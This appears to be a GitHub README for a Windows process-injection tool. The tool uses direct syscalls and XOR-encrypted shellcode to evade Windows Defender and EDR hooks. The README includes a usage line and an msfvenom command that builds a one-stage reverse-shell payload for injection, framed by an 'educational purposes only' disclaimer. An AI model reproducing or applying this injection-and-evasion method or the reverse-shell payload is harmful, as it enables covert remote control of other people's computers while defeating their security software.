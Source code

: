 # He4vensG4te
Process Injection Using direct syscalls only bypasses win defender

FOR EDUCATIONAL PURPOSES ONLY THIS CODE IS NOT MEANT TO BE WEPONIZED OR USED FOR MALICIOUS INTENTS
# technique explanation

just like a normal process injection we first get a handle to the target process , allocate space inside it, write the shellcode then create a thread that executes the shellcode 

now in each of these steps we have to use a win api function not just risking that some of these functions might be hooked by edrs but also this pattern is so known and any behavioral analysis will flag the malware so i wroked on my own version of the hellsgate technique to directly call the syscall instead of using high level win api functions

# how does it work 

its pretty simple and i already explained it here https://github.com/B4shCr00k/DirectSysCalls 

so we just call the stub everytime we call an nt function and repeat until we complete all the steps 

i also included a simple xor encryption to bypass static avs like win defender 

# Usage 
`He4vensG4te.exe [path] [pid]`

-  path must use double back slashes '\\'
-  tested on windows 11 x64 latest build
-  bypasses windows defender and some other static avs  

# Important note 
for the shellcode it has to be a .bin file you can generate one using metasploit like this 
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=x.x.x.x LPORT=x -f raw -o shellcode.bin`
the thing is u have to use a one stage payload cause i noticed that when i inject a multi stage meterpreter reverse shell the process crashes and the connection failed so the command above will generate a one stage simple reverse shell that actually works 

# ScreenShots
![Screenshot 2025-06-14 194559](https://github.com/user-attachments/assets/bd4e0cfb-6c2b-4695-a374-3c78be4fd893)
![Screenshot 2025-06-14 194936](https://github.com/user-attachments/assets/c880f7ab-04fe-4140-b667-fc1351fc49cb)
